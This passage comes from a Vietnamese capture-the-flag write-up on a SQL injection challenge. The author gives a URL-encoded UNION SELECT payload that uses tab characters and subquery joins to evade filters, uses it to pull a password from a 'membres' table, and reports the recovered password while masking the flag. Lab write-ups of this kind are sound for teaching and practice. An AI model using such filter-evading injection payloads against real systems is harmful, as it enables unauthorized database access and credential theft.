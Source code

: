 Không hiểu sao nó chỉ trả về giá trị như lúc đầu tiêm. Ngồi stuck một hồi nữa và thử đổi payload thì mới phát hiện ra quên thay đổi OFFSET từ 0 1 vì mình đã query id=1. Thay đổi payload:

**1%09UNION%09SELECT%09\*%09FROM%09((SELECT%09123)%09AS%09a%09JOIN%09(SELECT%09456)%09AS%09b%09JOIN%09(SELECT%09123)%09AS%09c%09JOIN%09(SELECT%09pass%09FROM%09membres%09LIMIT%091)%09AS%09d)%09LIMIT%091%09OFFSET%091**

<img src="./media/image11.png" style="width:6.5in;height:2.62778in" alt="Graphical user interface, text, application, email Description automatically generated" />

-   Tìm được password: **KLfgyTIJbdhursqli**

<img src="./media/image12.png" style="width:6.5in;height:3.525in" alt="A screenshot of a computer Description automatically generated" />

\- Flag: \*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*
